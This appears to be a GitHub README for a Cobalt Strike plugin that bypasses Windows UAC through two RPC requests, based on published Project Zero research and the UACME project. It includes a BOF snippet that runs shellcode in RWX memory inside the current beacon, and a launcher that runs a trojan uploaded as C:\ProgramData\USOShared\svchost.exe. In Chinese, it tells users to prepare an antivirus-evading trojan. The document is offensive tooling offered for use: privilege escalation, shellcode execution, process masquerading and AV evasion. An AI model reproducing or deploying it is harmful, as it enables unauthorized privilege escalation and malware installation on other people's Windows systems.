



# UAC Bypass 

This amazing trick by James Forshaw was released in 2019 [Project Zero - Calling Local Windows RPC Servers from .NET](https://googleprojectzero.blogspot.com/2019/12/calling-local-windows-rpc-servers-from.html) allow you to bypass UAC using only 2 RPC requests instead of DLL hijack. Basically rewritten from [hfiref0x/UACME](https://github.com/hfiref0x/UACME).

Tested works well on Windows 11 :)


## BOF

编写BOF在当前进程中执行Shellcode，没有spawn和inject高危操作产生，但会牺牲当前的beacon（注）。

```C
datap   parser;
LPBYTE  lpShellcodeBuffer = NULL;

DWORD   dwShellcodeBufferSize = 0;
LPVOID  pMem;
SIZE_T  bytesWritten = 0;
DWORD  dwThreadId = 0;

BeaconDataParse(&parser, buff, len);
lpShellcodeBuffer = (LPBYTE)BeaconDataExtract(&parser, (int*)(&dwShellcodeBufferSize));
pMem = VirtualAlloc(0, dwShellcodeBufferSize, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
WriteProcessMemory(GetCurrentProcess(), pMem, lpShellcodeBuffer, dwShellcodeBufferSize, &bytesWritten);
((void(*)())pMem)();
```


## RpcALPC

默认执行`C:\ProgramData\USOShared\svchost.exe`该程序，编写cna的时候会自动上传木马到这个文件，并重命名为`svchost.exe`。

```C
int WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow)
{
    if (FAILED(CoInitializeEx(NULL, COINIT_APARTMENTTHREADED))) return -1;
    wchar_t buff[256] = L"C:\\ProgramData\\USOShared\\svchost.exe";
    //MultiByteToWideChar(CP_ACP, 0, lpCmdLine, -1, buff, sizeof(buff) / sizeof(wchar_t));
    ucmDebugObjectMethod(buff);
}
```


## Usage

准备一个免杀木马，然后选择对应选项。






